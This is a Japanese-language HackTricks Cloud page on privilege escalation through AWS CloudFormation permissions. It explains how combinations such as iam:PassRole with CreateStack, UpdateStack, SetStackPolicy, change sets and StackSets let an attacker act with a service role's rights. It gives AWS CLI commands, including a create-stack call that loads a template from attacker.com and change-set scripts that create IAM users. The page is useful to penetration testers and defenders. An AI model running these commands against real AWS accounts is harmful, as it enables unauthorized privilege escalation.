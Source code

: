 # AWS - Cloudformation Privesc

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}

## cloudformation

Cloudformationに関する詳細情報は次を参照してください:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限でアクションを実行**するために、カスタムテンプレートを使用して、自分のサーバーにホストされた**CloudFormationスタック**を作成することで、権限をエスカレーションできます。
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を使用した **exploitation example** があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響:** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、既存のcloudformationスタックを**悪用**して更新し、前述のシナリオと同様に権限を昇格させることができます。
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
### `cloudformation:SetStackPolicy` | `cloudformation:UpdateStack`

この権限を使用して、スタック上で自分自身に`UpdateStack`権限を与え、攻撃を実行することができます。

**潜在的な影響:** 指定されたcloudformationサービスロールへの昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが、**`iam:PassRole`がない**場合でも、使用されているスタックを**更新**し、**すでにアタッチされているIAMロールを悪用**することができます。アップデート時にロールを指定しないでください（前のセクションのエクスプロイト例を確認してください）。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**ロールを渡し、ChangeSetを作成および実行**する権限を持つ攻撃者は、CreateStackまたはUpdateStackと同様に、**新しいcloudformationスタックを作成/更新し、cloudformationサービスロールを悪用**することができます。

次のエクスプロイトは、スタックを作成するために**ChangeSet権限**を使用した[**CreateStackのバリエーション**](./#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、スタックに対する `ChangeSet` 権限を自分自身に付与し、攻撃を実行することができます。

**潜在的な影響:** cloudformation サービスロールへの特権昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と同様ですが、**IAM ロールを渡さずに**、すでにアタッチされているものを悪用するだけで済みます。単にパラメータを変更します。
```
--change-set-type UPDATE
```
**潜在的影響:** すでにアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、StackSetsを作成/更新して任意のcloudformationロールを悪用する可能性があります。

**潜在的な影響:** cloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者は、この権限を悪用して、passRole権限なしでStackSetsを更新し、アタッチされたcloudformationロールを悪用する可能性があります。

**潜在的な影響:** アタッチされたcloudformationロールへの権限昇格。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}
